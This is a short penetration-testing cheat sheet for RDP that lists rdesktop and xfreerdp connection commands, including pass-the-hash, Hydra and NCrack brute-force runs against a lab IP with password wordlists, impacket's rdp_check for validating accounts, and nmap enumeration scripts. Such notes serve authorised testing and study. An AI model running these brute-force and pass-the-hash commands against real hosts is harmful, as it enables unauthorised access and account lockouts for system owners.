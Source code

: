 ## RDP

**Default port: 3389**

### Connecting using Credentials or Hash

    rdesktop -u <username> <IP>
    rdesktop -d <domain> -u <username> -p <password> <IP>
    xfreerdp /u:[domain\]<username> /p:<password> /v:<IP>
    xfreerdp /u:[domain\]<username> /pth:<hash> /v:<IP>

### Brute Force Attack
  
  Be careful, you could lock accounts

  https://github.com/yofbalibump/RDPbruteforcer

**Hydra**

 	hydra -t 1 -V -f -l administrator -P /home/kali/Desktop/rockyou.txt rdp://10.11.1.7

**NCrack** not tested

	ncrack -vv --user Administrator -P /home/kali/Desktop/1000-most-common-passwords.txt rdp://10.11.1.7


### Check Account

  test whether account is valid on the target host.
  
  https://github.com/SecureAuthCorp/impacket/blob/master/examples/rdp_check.py
  
  `rdp_check <domain>/<name>:<password>@<IP>`
  
### NMap
  
  It checks the available encryption and DoS vulnerability (without causing DoS to the service) and obtains NTLM Windows info (versions).
  
  `nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>`
